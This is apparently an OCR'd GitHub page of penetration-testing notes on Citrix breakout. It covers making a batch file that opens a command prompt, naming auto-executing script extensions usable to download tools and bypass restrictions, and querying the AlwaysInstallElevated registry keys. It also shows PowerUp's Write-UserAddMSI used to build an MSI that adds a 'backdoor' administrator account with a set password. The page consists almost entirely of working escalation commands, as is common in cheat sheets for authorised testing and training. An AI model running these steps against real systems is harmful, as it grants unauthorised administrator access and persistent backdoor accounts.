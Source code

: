 ## 📝 Script Execution Bypass

### Batch File Method
```batch
# Create evil.bat:
1. Create new text file
2. Rename to "evil.bat"  
3. Edit content:
   cmd
4. Save and execute

# Result: Opens Command Prompt
```

### Script Extension Exploitation
```cmd
# When these extensions auto-execute:
.bat    # Batch files
.vbs    # VBScript files  
.ps1    # PowerShell scripts

# Potential for:
- Interactive console access
- Download and launch tools
- Bypass restrictions via scripting
```

## 🔺 Privilege Escalation in Citrix

### AlwaysInstallElevated Discovery
```cmd
# Check registry for Always Install Elevated:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Both should return: REG_DWORD 0x1
```

### PowerUp MSI Exploitation
```powershell
# Using PowerUp for MSI creation:
Import-Module .\PowerUp.ps1
Write-UserAddMSI

# Creates UserAdd.msi on desktop
# Execute to create new admin user
```

### User Creation via MSI
```cmd
# MSI execution creates user dialog:
Username: backdoor
Password: T3st@123        # Must meet complexity requirements
Group: Administrators

# Result: New admin user created
```

